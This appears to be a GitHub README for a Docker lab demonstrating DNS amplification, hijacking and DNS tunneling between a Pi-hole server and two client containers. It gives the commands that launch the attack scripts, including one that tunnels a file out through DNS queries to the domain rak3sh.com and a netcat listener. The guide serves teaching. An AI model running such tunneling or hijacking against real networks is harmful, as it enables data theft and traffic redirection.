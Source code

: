 
# Container-Based DNS Attacks Demonstration

## Container Setup
- **Pi-hole Server (10.0.0.5):** A container running Pi-hole, acting as the DNS server.
- **DNS Client 1 (10.0.0.2):** An Ubuntu-based container, used as a client or victim in the demonstrations.
- **DNS Client 2 (10.0.0.3):** Another Ubuntu-based container, used as a client or attacker in the demonstrations.

## Overview
This guide provides instructions for demonstrating various DNS attack techniques in a containerized environment. The demonstrations include Amplification Attack, Hijacking, and DNS Tunneling. Please note that these demonstrations are for educational purposes only. Users should proceed with caution and understand the risks involved.

## Prerequisites
- Docker and Docker Compose installed and running
- Relevant Docker containers for the DNS environment set up in a `docker-compose.yml` file

## Starting the Environment
Before beginning the demonstrations, start the environment using Docker Compose:

```bash
docker-compose up -d
```

This command will start all the containers defined in your `docker-compose.yml` file in detached mode.

## Amplification Attack
In this scenario, we demonstrate a DNS Amplification Attack.

1. Execute the DNS Amplification script on DNS Client 2:
   ```bash
   docker exec -it dns-client-2 /bin/bash
   python3 dnsamp.py
   ```

2. Listen for incoming UDP traffic on port 53 on DNS Client 1:
   ```bash
   docker exec -it dns-client-1 /bin/bash
   nc -u -nlvt 53
   ```

## Hijacking
This section demonstrates DNS Hijacking.

1. Execute the DNS Hijacking script on the Pi-hole server:
   ```bash
   docker exec -it pihole /bin/bash
   ./dnshijack.sh
   ```

2. Test DNS resolution to observe hijacking on DNS Client 1:
   ```bash
   docker exec -it dns-client-1 /bin/bash
   nslookup google.com 10.0.0.5
   ```

## DNS Tunneling
Demonstrate DNS Tunneling with the following steps:

1. Execute the DNS Tunneling script on DNS Client 1:
   ```bash
   docker exec -it dns-client-1 bash
   python3 dnstunnel.py to_be_tunneled.txt 10.0.0.5 rak3sh.com
   ```

2. Monitor the Pi-hole logs for tunneling activity on the Pi-hole server:
   ```bash
   docker exec -it pihole /bin/bash
   tail -f /var/log/pihole.log | grep 10.0.0.2
   ```

## Disclaimer
The author is not responsible for any malicious activities arising from the use of this demonstration. This guide is intended for educational purposes only. Users are advised to use this information responsibly and in accordance with applicable laws and ethical guidelines.

## Note
This is a container-based DNS attacks demo. The user should use this at their own risk.
```
